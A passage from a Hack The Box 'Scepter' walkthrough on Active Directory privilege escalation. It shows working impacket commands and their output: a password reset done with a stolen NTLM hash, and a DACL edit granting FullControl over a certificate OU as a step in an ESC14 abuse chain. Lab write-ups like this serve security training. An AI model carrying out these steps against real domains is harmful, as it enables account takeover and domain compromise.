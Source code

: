 ### Privilege Escalation to p.adams

Once again we needed a target and checked the other available users. One of them, `p.adams` had the `permission` to `DCSync` which clearly was the way to go.

![](images/2025-04-21_23-24_bloodhound_high_valuable_targets.png)

In order to abuse `ESC14` we needed once again to start from scratch to fight against the `cleanup job`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ impacket-changepasswd 'scepter.htb'/'a.carter'@10.129.246.122 -reset -altuser 'd.baker' -althash :'18b5fb0d99e7a475316213c15b6f22ce'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

New password: 
Retype new password: 
[*] Setting the password of scepter.htb\a.carter as scepter.htb\d.baker
[*] Connecting to DCE/RPC as scepter.htb\d.baker
[*] Password was changed successfully.
[!] User no longer has valid AES keys for Kerberos, until they change their password again.
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'a.carter' -target-dn 'OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB' 'scepter.htb'/'a.carter':'newpassword' 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250421-233728.bak
[*] DACL modified successfully!
```

